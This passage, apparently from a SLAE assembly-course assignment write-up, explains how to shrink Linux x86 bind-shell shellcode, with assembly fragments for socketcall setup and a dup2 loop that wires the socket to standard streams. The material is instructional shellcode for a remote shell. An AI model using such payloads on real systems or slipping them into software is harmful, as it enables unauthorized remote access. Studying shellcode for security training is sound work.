 ![Terminal 2](https://raw.githubusercontent.com/mrpapercut/SLAE/master/assignment1/images/shellcode-terminal2.png)

### Shrinking shellcode
134 bytes of shellcode is nice, but it can be made smaller. There are a couple of optimizations we can perform to shave some bytes off this code.

First of all, we perform the same setup for SYS_SOCKETCALL several times. Every time we do the following:
```asm
xor eax, eax
mov al, 0x66
```
If instead we assign the value we want to EDI, we can reuse EDI every time we want this syscall:
```asm
xor edi, edi    ; Clear EDI
xor edi, 0x66   ; EDI is now 0x00000066
mov eax, edi    ; EAX is now the same as if we did xor eax, eax -> mov al, 0x66

;; Further in the code
mov eax, edi    ; We can do this every time
```
The second argument for SYS_SOCKETCALL is (in order of code) 0x1, 0x2, 0x4 and 0x5 for the functions socket, bind, listen and accept, respectively. During these calls, EBX is never changed, so we can simply increment the value in EBX for each function (and increment twice between bind() and listen()).

The dup2() functions can be easily optimized as well. As we've seen before, we only need to re-setup EAX and increment ECX for the second and third time we call dup2(). This can be put in a loop:
```asm
    mov ebx, eax        ; Ref to socketid
    xor eax, eax        ; Zero-out EAX
    xor ecx, ecx        ; Zero-out ECX
    mov cl, 0x2         ; Set counter
duploop:
    mov al, 0x3f        ; SYS_DUP2
    int 0x80            ; Exec syscall
    dec ecx             ; Decrement ECX
    jns duploop         ; Loop
```
This will run the functions in reverse order (by decrementing the second argument 2, 1, 0).
